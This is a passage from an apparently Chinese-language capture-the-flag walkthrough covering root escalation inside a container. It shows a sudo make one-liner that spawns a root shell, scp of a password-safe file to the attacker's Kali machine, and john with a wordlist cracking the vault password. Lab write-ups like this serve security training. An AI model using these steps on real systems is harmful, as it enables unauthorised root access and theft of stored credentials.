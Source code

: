 # 7. **容器内提权**

```bash
parker@153504fd9bcb:/home$ su goddard
Password: 
goddard@153504fd9bcb:/home$ id
uid=1000(goddard) gid=1000(goddard) groups=1000(goddard)
goddard@153504fd9bcb:/home$ sudo -l
Matching Defaults entries for goddard on 153504fd9bcb:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User goddard may run the following commands on 153504fd9bcb:
    (ALL) NOPASSWD: /usr/bin/make
```

*ps:https://gtfobins.github.io/gtfobins/make/#sudo*

```bash
goddard@153504fd9bcb:/home$ sudo make -s --eval=$'x:\n\t-'"/bin/bash"
root@153504fd9bcb:/home# id
uid=0(root) gid=0(root) groups=0(root)
root@153504fd9bcb:/home# cd
root@153504fd9bcb:~# ls -al
total 24
drwx------ 1 root root 4096 Aug 24 18:39 .
drwxr-xr-x 1 root root 4096 Oct 11 18:41 ..
-rw-r--r-- 1 root root  607 May 12 19:25 .bashrc
-rw-r--r-- 1 root root  132 May 12 19:25 .profile
drwx------ 2 root root 4096 Aug 24 18:38 .ssh
-rw-r--r-- 1 root root 1656 Aug 22 16:02 secrets.psafe3
```

传去kali

```bash
root@153504fd9bcb:~# scp secrets.psafe3 kali@192.168.205.128:/mnt/hgfs/gx/x/tmp
...
secrets.psafe3                               100% 1656   749.5KB/s   00:00 
```

pwsafe查看

![image-20251019125219858](http://7r1UMPHK.github.io/image/20251019145628481.webp)

要密码，爆破一下

```bash
┌──(kali㉿kali)-[/mnt/hgfs/gx/x/tmp]
└─$ pwsafe2john secrets.psafe3 > hash
                                                                           
┌──(kali㉿kali)-[/mnt/hgfs/gx/x/tmp]
└─$ john --wordlist=/usr/share/wordlists/rockyou.txt hash
...
rockandroll      (secret)     
...
```
